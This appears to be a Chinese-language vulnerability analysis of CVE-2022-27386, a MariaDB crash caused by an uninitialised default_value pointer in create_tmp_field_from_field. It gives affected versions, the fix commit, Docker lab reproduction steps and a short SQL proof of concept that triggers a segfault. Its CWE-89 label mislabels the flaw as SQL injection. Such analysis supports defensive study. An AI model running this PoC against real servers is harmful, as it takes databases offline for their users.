



# CVE-2022-27386 CWE-89 MariaDB DoS via Segmentation Fault

## 漏洞背景

- **MariaDB ：**一款开源关系型数据库管理系统，由 MySQL 的创始人开发，与 MySQL 高度兼容。它具有高性能、高安全性、易于使用等特点，支持多种存储引擎，可保障数据的可靠存储与高效读写。同时，MariaDB 还具备强大的查询优化能力，能增强数据库性能，广泛应用于多种行业领域，为数据存储和管理提供有力支持。
- **CWE-89  Improper Neutralization of Special Elements used in an SQL Command ('SQL Injection')**

## 漏洞原理

通过组件  sql/sql_class.cc 包含分段错误。

在临时表/派生表字段生成过程中，某些Field对象（如TIMESTAMP/DEFAULT类型）其`default_value`等指针成员未初始化，导致后续`DEFAULT()` SQL访问时解引用野指针或NULL，造成崩溃。

## 漏洞定位

分析 MariaDB 10.2.0 源码：

在 sql/sql_select.cc 文件中，第 15659 行`create_tmp_field_from_field`函数用于创建临时表（或中间表）时，根据已有表的Field字段对象，生成一个新的Field对象。

其中第 15683 行开始显式初始化指针成员，但是这里遗漏了一些成员的初始化。如果`org_field`（原字段对象）这些成员本身未初始化或是随机值，**新生成的`new_field`成员就带着“脏指针”或者NULL**。

只要后续执行链有SQL语句尝试解引用这些指针，就会出现**段错误(SIGSEGV)**。

```cpp
// sql_select.cc 15659行
Field *create_tmp_field_from_field(THD *thd, Field *org_field,
                                   const char *name, TABLE *table,
                                   Item_field *item)
{
  Field *new_field;

  new_field= org_field->make_new_field(thd->mem_root, table,
                                       table == org_field->table);
  if (new_field)
  {
    new_field->init(table);
    new_field->orig_table= org_field->orig_table;
    if (item)
      item->result_field= new_field;
    else
      new_field->field_name= name;
    new_field->flags|= (org_field->flags & NO_DEFAULT_VALUE_FLAG);
    if (org_field->maybe_null() || (item && item->maybe_null))
      new_field->flags&= ~NOT_NULL_FLAG;	// Because of outer join
    if (org_field->type() == MYSQL_TYPE_VAR_STRING ||
        org_field->type() == MYSQL_TYPE_VARCHAR)
      table->s->db_create_options|= HA_OPTION_PACK_RECORD;
    else if (org_field->type() == FIELD_TYPE_DOUBLE)
      ((Field_double *) new_field)->not_fixed= TRUE;
 /***** 15683 行 ***** 成员变量初始化 ************* 漏洞点 **********/
    new_field->vcol_info= 0;
    new_field->cond_selectivity= 1.0;
    new_field->next_equal_field= NULL;
    new_field->option_list= NULL;
    new_field->option_struct= NULL;
  }
  return new_field;
}
```

## 漏洞修复


升级到 MariaDB 10.2.44、10.3.35、10.4.25、10.5.16、10.6.8、10.7.4 或包含提交 `5ba77222e9fe7af8ff403816b5338b18b342053c` 的对应分支更高版本。新的字段复制路径会将 `vcol_info`、`default_value` 和 `check_constraint` 初始化为 `NULL`，使错误清理和表达式处理逻辑能够安全检查这些成员。

在修补之前，限制克隆或更改列定义的不受信任的 DDL，并避免 PoC 架构转换。重新启动监督可以减轻可用性影响，但不能减轻无效指针的使用。
添加了缺失成员变量的初始化

```cpp
new_field->vcol_info= new_field->default_value=
      new_field->check_constraint= 0;
```

## 影响范围


**受影响的版本：** MariaDB：

- 10.2.0 至 10.2.43
- 10.3.0 至 10.3.34
- 10.4.0 至 10.4.24
- 10.5.0 至 10.5.15
- 10.6.0 至 10.6.7
- 10.7.0 至 10.7.3

**崩溃栈涉及文件：** `sql/sql_class.cc`  
**根因及修复位置：** `sql/sql_select.cc` 中的 `create_tmp_field_from_field()`

## 环境搭建

启动 Docker 环境，MariaDB 版本为 10.6.3，管理员用户为 root，密码为 12345，存在一个数据库 test_db，开放端口为 3306，容器中存在 PoC 文件 CVE-2022-27386-PoC.sql 。

```txt
cpe:2.3:a:mariadb:mariadb:10.6.3:*:*:*:*:*:*:*
```



## 漏洞复现

1、进入容器命令行

```bash
docker exec -it mariadb-10.6.3 bash
```

2、使用 root 用户登录并连接数据库 test_db，密码为 12345

```sql
mariadb -u root -p test_db
```

3、执行 PoC 文件 CVE-2022-27386-PoC.sql 后，可以看到断开了连接

```sql
source CVE-2022-27386-PoC.sql
```



4、查看容器 MariaDB 崩溃日志，可以看到`[ERROR] mysqld got signal 11 ;`，是段错误触发的致命错误。

```bash
docker logs mariadb-10.6.3
```



## POC分析

```sql
-- 创建一个名为t1的表，表结构有一个字段v1，类型为TIMESTAMP
CREATE TABLE t1 (v1 TIMESTAMP) SELECT 'x';

-- 对t1表里的v1字段做GROUP BY分组，形成一个临时表 dt
-- 在这个临时表dt上，查询每行v1字段的默认值（DEFAULT(v1)）
SELECT DEFAULT(v1) FROM ( SELECT v1 FROM t1 GROUP BY v1 ) dt ;
```

内部会调用`create_tmp_field_from_field`生成临时表字段，但是遗漏了`default_value`指针的初始化**此时`default_value`为野指针**。在临时表上执行`DEFAULT(v1)`时，数据库需要读取这个Field对象的`default_value`成员，由于成员未初始化，尝试解引用时直接导致段错误。

## 参考链接


[NVD - CVE-2022-27386](https://nvd.nist.gov/vuln/detail/CVE-2022-27386)

[[MDEV-26406\] A SEGV in sql/sql_class.cc - Jira](https://jira.mariadb.org/browse/MDEV-26406)

[[MDEV-21028\] Server crashes in Query_arena::set_query_arena upon SELECT from view - Jira](https://jira.mariadb.org/browse/MDEV-21028)

[MDEV-21028 Server crashes in Query_arena::set_query_arena upon SELECT… · MariaDB/server@5ba7722](https://github.com/MariaDB/server/commit/5ba77222e9fe7af8ff403816b5338b18b342053c#diff-16fd8e507582e428d933bc7ee3984394eab544410785220b536ab964d4e9e084)
